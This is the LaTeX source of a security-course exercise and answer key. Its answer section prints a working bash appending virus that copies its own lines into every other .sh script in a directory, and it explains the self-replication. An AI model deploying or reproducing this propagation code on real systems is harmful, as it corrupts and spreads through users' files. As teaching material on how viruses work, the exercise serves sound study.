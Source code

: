 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Answer}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[VBashX Project]
\begin{enumerate}
\item[\textbf{1b)}] Test: create \texttt{cible1.sh} and \texttt{cible2.sh} (simple \texttt{echo} scripts). Execute the virus, then the targets. Does the host code still execute?

\item[\textbf{1c)}] Execute an infected file. What happens? Why?
\end{enumerate}

\begin{correction}

\textbf{1a)} The following script implements a simple appending virus:
\begin{lstlisting}[title=vbashx\_phase1.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 1 ---
VIRUS_SIZE=7
for f in *.sh; do
    if [ "$(basename "$f")" != "$(basename "$0")" ]; then
        tail -n $VIRUS_SIZE "$0" >> "$f"
    fi
done
\end{lstlisting}

\textbf{1b)} After executing the virus, the target files contain their original code followed by the viral code. When a target is executed, the host code runs first (the \texttt{echo} commands display their messages), then the viral code runs and spreads the infection to other \texttt{.sh} files.

\textbf{1c)} When an infected file is executed, it spreads the virus to other \texttt{.sh} files in the directory. This is \textbf{peer-to-peer propagation}: each infected file becomes an infection vector in turn.

\begin{attention}
The virus suffers from a major problem: it \textbf{reinfects} already-infected files on every execution. File sizes grow indefinitely. This problem will be solved in Phase 2.
\end{attention}

\begin{pointcle}
\begin{itemize}
    \item \texttt{tail -n K \$0} enables \textbf{self-extraction} of the viral code from the currently running file.
    \item The \texttt{>>} operator appends to a file without overwriting existing content.
    \item The viral code executes \textbf{after} the host code: the original program remains functional.
    \item The value of \texttt{VIRUS\_SIZE} must \textbf{exactly} match the number of lines of the viral code (from the start comment to the final \texttt{done}).
\end{itemize}
\end{pointcle}


\end{correction}
\end{exercice}
\end{document}
